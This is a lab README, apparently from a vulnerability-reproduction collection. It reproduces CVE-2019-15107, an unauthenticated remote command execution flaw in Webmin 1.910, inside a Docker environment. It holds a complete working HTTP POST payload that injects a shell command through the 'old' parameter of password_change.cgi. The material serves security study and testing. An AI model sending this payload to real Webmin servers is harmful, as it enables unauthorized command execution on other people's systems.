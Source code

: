 # Webmin Unauthenticated Remote Code Execution (CVE-2019-15107)

[中文版本(Chinese version)](README.zh-cn.md)

Webmin is a web-based system configuration tool for Unix-like systems. The vulnerability exists in the password reset page, which allows unauthenticated users to execute arbitrary commands through a simple POST request.

Referrers:

- https://www.pentest.com.tr/exploits/DEFCON-Webmin-1920-Unauthenticated-Remote-Command-Execution.html
- https://www.exploit-db.com/exploits/47230
- https://blog.firosolutions.com/exploits/webmin/

## Start Vulnerability Application

Start a vulnerable Webmin 1.910 through following command:

```
docker-compose up -d
```

After the environment is started, you can see the login page of Webmin at `https://your-ip:10000`.

## Vulnerability Reproduce

The payload of the reference links is incorrect. After reading the code, I found that command can be executed only if the user parameter of the body doesn't exist. 

In short, sending a following POST request to execute command `id`:

```
POST /password_change.cgi HTTP/1.1
Host: your-ip:10000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Cookie: redirect=1; testing=1; sid=x; sessiontest=1
Referer: https://your-ip:10000/session_login.cgi
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

user=rootxx&pam=&expired=2&old=test|id&new1=test2&new2=test2
```

![](1.png)
